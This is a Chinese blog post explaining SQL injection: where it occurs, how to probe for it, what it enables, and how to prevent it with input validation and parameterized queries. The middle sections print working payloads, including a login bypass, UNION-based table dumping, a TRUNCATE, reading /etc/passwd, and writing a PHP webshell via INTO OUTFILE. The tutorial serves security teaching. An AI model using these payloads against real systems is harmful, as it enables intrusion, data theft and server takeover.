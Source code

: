 ```yaml
---
title: "邪恶的SQL注入"
categories: [ "SQL" ]
tags: [ "sql","注入" ]
draft: false
slug: "sql-injection-of-evil"
date: "2013-09-03 21:34:00"
---
```


无论是在开发软件还是在制作Web应用，在处理用户输入或和用户进行交互时，从安全的角度考虑，一定要始终记住一句话：所有用户输入都是邪恶的。因为你永远都想不到用户会给你什么。在Web世界里最流行的Web攻击是SQL注入和DOS攻击。今天我们就从SQL注入攻击开始，分析用户可能会给你带来的惊喜。

## 一、SQL注入的位置


<!--more-->


SQL注入只有在SQL语句中插入了用户输入的字符串并没有做好相应的处理时才会发生，用户输入的来源可以是URL参数，POST数据，外部用户输入信息等。程序员在编写代码时往往需要在SQL中填入用户输入的参数，譬如根据用户ID查询用户信息，查询链接类似于`/get_user_info.php?uid=123`，具体到SQL代码可能是下面这样：

`SELECT * FROM User WHERE uid = 123`

或者是根据用户名来查找用户，链接类似于`/search_user.php?name=Zhangsan`，具体到SQL代码类似于下面：

`SELECT * FROM User WHERE name = 'Zhangsan'`

上面例子中123和Zhangsan就是用户输入的参数，同时也是可能的注入点。常见的SQL注入位置有下面几种（当然程序员可以把用户参数写到任何地方，不仅仅是WHERE条件里，也可以是`ORDER BY`或`GROUP BY`子句，甚至是SQL语句本身）：

    SELECT * FROM table WHERE id = XXX
    SELECT * FROM table WHERE name = 'XXX'
    SELECT * FROM table WHERE name = 'XXX' AND pass = 'YYY'
    SELECT * FROM table WHERE name = "XXX"
    SELECT * FROM table WHERE id IN (XXX)
    SELECT * FROM table WHERE name like '%XXX%'

## 二、SQL注入方法

从上面列出的SQL语句可以看出，常见的查询参数有可能是数字类型，也可能是字符串类型。两种类型的参数有不同的注入检测方法，字符串类型的参数可以使用`' '' " "" \ \\\`进行试探，而数字类型时可以用`AND 1、AND 0、AND true、AND false、1-false、1-true、2-1、1*100`等方法进行试探。下面举例说明： 一般情况下，如果程序对用户输入的参数做了正确的处理，那么输入任何参数页面都不会报错。如下面两句SQL：

    SELECT * FROM User WHERE name = 'Zhangsan''
    SELECT * FROM User WHERE name = 'Zhangsan'''

这两个SQL第二个是合法的，只要引号成对出现都没问题。如果用户分别输入Zhangsan'和Zhangsan''页面都能正常返回，则表明不存在注入问题，如果第一个输入页面异常，而第二个输入正常则表明该参数很可能是一个可以利用的注入点。 数字类型的参数看下面这个例子，如果用户输入123 AND 1和123 AND 0页面返回正常，并且结果一样，则说明程序对参数作了处理，而如果输入123 AND 1返回正常，输入123 AND 0返回空页面，则说明存在注入的可能。

    SELECT * FROM User WHERE uid = 123 AND 1
    SELECT * FROM User WHERE uid = 123 AND 0

# 三、注入能做什么

如果SQL注入只是简单的让页面出错或者返回空页面的话，那么SQL注入也就不会这么吸引人了。SQL注入的强大之处在于可以在服务器上做几乎任何事，听起来似乎是危言耸听，但事实确实如此，要不然SQL注入怎么会和DOS攻击一起成为最流行的网络攻击方法呢。下面我们就来看下通过一个简单的URL参数，可以做多么不可思议的事。

## 3.1 绕开验证

在用户登陆时，往往要根据用户输入的用户名和密码到数据库中进行查询比较，如果用户名和密码匹配则认为登陆成功。相应的SQL语句如下：

`SELECT * FROM Customer WHERE name = 'XX' AND pass = 'YY'`

如果没有对用户输入的参数进行检查，则当输入用户名为`admin`，密码为`' OR '' = ' `时，执行下面的SQL语句：

`SELECT * FROM Customer WHERE name = 'admin' AND pass = '' OR '' = ''`

这个SQL语句中的`'' = ''`将这个WHERE条件变成了恒等于TRUE，所以会返回所有记录。如果程序通过判断返回的记录数是否大于0来判断验证是否通过的话，这样我们就绕过了程序的验证。

## 3.2 暴库

根据上面的例子可以看到原本是想查询用户名为admin的用户记录，SQL注入后返回的却是数据库中的所有记录。通过这种方式连接其他的表，利用一点点的手段，就几乎可以获取所有数据库、所有表、所有字段的信息，并可以根据这些信息进一步查询数据库中的任意数据。这就是所谓的暴库。譬如还是上面的SQL例子，通过下面的SQL可以获取MySQL版本：

`SELECT * FROM User WHERE name = 'Zhangsan' AND MID(VERSION(),1,1) = '5'`

通过下面的SQL可以爆出所有表：

`SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'`

这种方法称为Union法。要让这个SQL能够正确执行，User表的字段必须和后面UNION SELECT的字段个数一致，如果字段个数不一致SQL执行会报错。所以要让这种方法生效首先得确定User表字段个数，一般通过ORDER BY试探法，如下所示，通过递增ORDER BY的数值直到页面出错来确定字段个数。

    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 1 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 2 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 3 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 4 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 5 -- -'  -- 页面出错，可推测User表字段数为4

确定好`User`表的字段个数后，后面的`UNION SELECT`语句也需要做相应的调整，可以用数字1来填充，如下：

`SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 1, 1 FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'`

## 3.3 增删改查，任意数据库操作

一旦知道了所有的数据库信息，则可以修改注入语句任意操作数据库。如下的例子将`Product`表清空：

`SELECT * FROM User WHERE uid = 123; TRUNCATE TABLE Product`

## 3.4 读写文件

MySQL提供了两个方法可以从本地读取和写入文件，如下：

    SELECT LOAD_FILE('/etc/passwd');
    SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';

上面两个例子展现了SQL注入的强大威力，如果MySQL用户拥有读写文件的权限，那么SQL注入将对站点带来巨大的威胁。第一个例子可以爆出linux服务器上的账号密码文件，第二个例子是向网站根目录写一个webshell，通过这个webshell用户就可以执行linux的系统命令了。譬如：`http://www.example.com/shell.php?c=ls`，通过webshell攻击者可以进一步做更多的事情了，最后直到控制整个服务器。

## 四、防范SQL注入

针对SQL注入的特点，总结以下几点基本的防范原则：

    

 1. 永远不要相信用户输入，对用户输入进行校验；
 2. 永远不要自己拼接SQL；
 3. 永远不要用管理员权限的数据库连接；
 4. 永远不要明文保存机密信息；
 5. 尽量不要显示程序的异常信息，保存到表或日志文件中；
 6. 使用WAF；（绕过WAF又是另一个话题了）

从编程的角度来看可以做如下的事情：

    

 1. 用户输入验证：类型转换、正则表达式、特殊符号过滤（引号，分号，注释符号等）
 2. 使用参数化存储过程
 3. 使用参数化SQL语句
 4. 采用ORM框架

其中将拼接的SQL语句改为使用参数化的SQL语句是最常用的防范方法，另外，参数化的SQL不仅比拼接的更安全，而且性能要更高。 SQL语句的执行过程分几个步骤：语法检查、分析、执行、返回结果。当一条SQL通过语法检查后，会在共享池里寻找是否有跟其相同的语句，如果有则用已有的执行计划执行语句，如果没有找到，则生成执行计划，然后才执行语句。 自己拼接的SQL语句会随着变量的不同而不同，如下面的两句SQL，执行每个SQL的时候都会生成一次执行计划，而这些执行计划其实都是一样的。

    SELECT * FROM Customer WHERE uid = 1
    SELECT * FROM Customer WHERE uid = 2

当这种SQL语句被大量调用时，会导致共享池中的SQL语句增多，而重用性极低，导致共享池内命中率下降。维护共享池内部结构消耗了大量的CPU和内存资源，而并没有充分利用执行计划的缓存优势，这样会带来性能问题。采用参数绑定的方式，可以解决这个问题：

    $uid = 1;
    $pdo = new PDO(...);
    $sql = "SELECT * FROM Customer WHERE uid = :ID";
    $stmt = $pdo->prepare($sql);
    $stmt->bindValue(":ID", $uid, PDO::PARAM_INT);
    $result = $stmt->execute();

参考

[网络攻击技术开篇——SQL Injection](http://www.cnblogs.com/rush/archive/2011/12/31/2309203.html)
[SQL注入式攻击的防治的六个建议](http://www.oecp.cn/hi/right_way/blog/2274)
[SQL注入漏洞及绑定变量浅谈](http://kb.cnblogs.com/page/55287/)
[SQL注入攻击防御深层思考](http://cookingbsd.blog.51cto.com/5404439/1196198)
[sql注入语句大全](http://www.cnblogs.com/aix1314/archive/2013/03/31/2991609.html)
[十大关系数据库SQL注入工具一览](http://www.csdn.net/article/2012-04-16/2804631)
[SQL注入测试工具：Pangolin（穿山甲）](http://blog.csdn.net/yefan2222/article/details/7086833)
[见招拆招：绕过WAF继续SQL注入常用方法](http://my.oschina.net/mik3y/blog/291613)
[技巧和诀窍：防范SQL注入攻击](http://blog.csdn.net/scottgu/article/details/1365023)
[另类的SQL注入方法](http://www.cnblogs.com/r00tgrok/p/3854754.html)
[深入理解SQL注入绕过WAF和过滤机制](http://www.cnblogs.com/r00tgrok/p/SQL_Injection_Bypassing_WAF_And_Evasion_Of_Filter.html)
[MySql注入科普](http://drops.wooyun.org/tips/123)
[MySql注入科普（原版）](http://websec.ca/kb/sql_injection)


